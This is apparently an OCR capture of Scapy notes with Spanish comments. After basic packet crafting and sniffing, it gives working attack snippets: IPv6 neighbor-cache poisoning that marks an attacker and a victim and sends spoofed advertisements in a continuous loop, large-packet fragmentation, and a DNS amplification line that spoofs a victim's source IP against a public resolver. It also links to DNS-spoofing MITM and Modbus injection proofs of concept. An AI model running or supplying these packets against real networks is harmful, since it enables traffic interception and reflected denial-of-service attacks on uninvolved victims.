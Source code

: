 ls()
lsc()
conf
conf.route

packet = Ether()/IP(dst="google.com")/ICMP()/"ABCD"
ls(packet)
sendp(packet loop=1, count=3, inter=3)
response = srp1(packet)
ls(response)
response.show()
packet.summary()


packets = sniff(iface="wlan0", count=500, filter="tcp")
ppackets
len(packets)
packet[4]
wrpcap("/tmp/demo.pcap", packets)
rdpcap("/tmp/demo.pcap")


packets = sniff(iface="wlan0", count=3, prn=lambda x:x.summary(), filter="icmp")



https://github.com/Adastra-thw/pyHacks/blob/master/MitmDnsSpoofingPoC.py



ether = Ether(src="08:00:27:c5:6b:6c", dst="08:00:27:10:b8:d0")  # MAC origen (atacante) y destino (víctima)
ipv6 = IPv6(src="fe80::d5d4:8c8c:648a:adcb", dst="2001:aaa:bbb:ccc::33")  # Direción IPv6 origen y destino
na = ICMPv6ND_NA(tgt="2001:aaa:bbb:ccc::1", R=0)  # tgt indica la cache víctima a envenenar
lla = ICMPv6NDOptDstLLAddr(lladdr="08:00:27:c5:6b:6c")  # Dirección física que queremos que tenga (atacante)
(ether/ipv6/na/lla).display()
sendp(ether/ipv6/na/lla, iface="enp0s3", loop=1, inter=5)  # loop=1 en forma continua cada 5 seg


Fragmentacion

p = IPv6(dst="")/IPv6ExtHdrFragment()/ICMPv6EchoRequest()/Raw(load="A"*400) # paquete muy graande que queremos enviar a la red

fr = fragment6(p, 100) # fragmenta el paquete grande en 100bytes
for i in fr:
    send(i, iface="eth0")


DNS Amplification
packet = IP(dst="8.8.8.8", src="victimIP")/UDP(dport=53)/DNS(rd=1, qd=DNSQR(qname="fwhibbit.es", qtype=255)) # dig ANY fwhibbit.es @8.8.8.8  # qtype 255 es como el ANY (toda la info posible)
send(packet)


MODBUS
https://rodrigocantera.com/en/modbus-tcp-packet-injection-with-scapy/